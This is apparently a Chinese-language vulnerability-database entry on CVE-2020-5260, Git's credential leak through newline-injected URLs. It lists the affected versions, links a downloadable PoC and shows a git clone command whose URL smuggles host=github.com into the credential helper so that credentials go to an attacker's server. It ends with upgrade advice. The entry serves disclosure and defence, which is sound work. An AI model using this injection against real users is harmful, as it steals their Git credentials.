 ```yaml
---
title: 'Git凭证泄露漏洞（CVE-2020-5260）'
date: Sun, 27 Sep 2020 12:45:42 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 描述

Git使用凭证助手(credential helper)来帮助用户存储和检索凭证。但是当一个URL中包含经过编码的换行符时，可能将非预期的值注入到credential helper的协议流中。这将使恶意URL欺骗Git客户端去向攻击者发送主机凭据。当使用受影响版本 Git对恶意 URL 执行 git clone 命令时会触发该漏洞。

#### 影响版本

Git2.17.x <= 2.17.3Git2.18.x <= 2.18.2Git2.19.x <= 2.19.3Git2.20.x <= 2.20.2Git2.21.x <= 2.21.1Git2.22.x <= 2.22.2Git2.23.x <= 2.23.1Git2.24.x <= 2.24.1Git2.25.x <= 2.25.2Git2.26.x <= 2.26.0 poc 链接：https://pan.baidu.com/s/1upYlyZFZMDuNZ5YnMnrmaQ 提取码：e9iz 启动poc：go run poc.go git在执行类似"git clone https://example.com" 这样的命令时,会请求使用协议"https"存储主机"example.com"的凭据，并在远程端请求身份验证时将返回的凭据附加到发出的请求中

 ```
git clone 'http://localhost:8088/%0ahost=github.com%0aprotocol=https' 
 ```

![](./Git凭证泄露漏洞（CVE-2020-5260）/20200716173859320.png) 

获取到git的凭证

#### 修复建议

升级到最新版
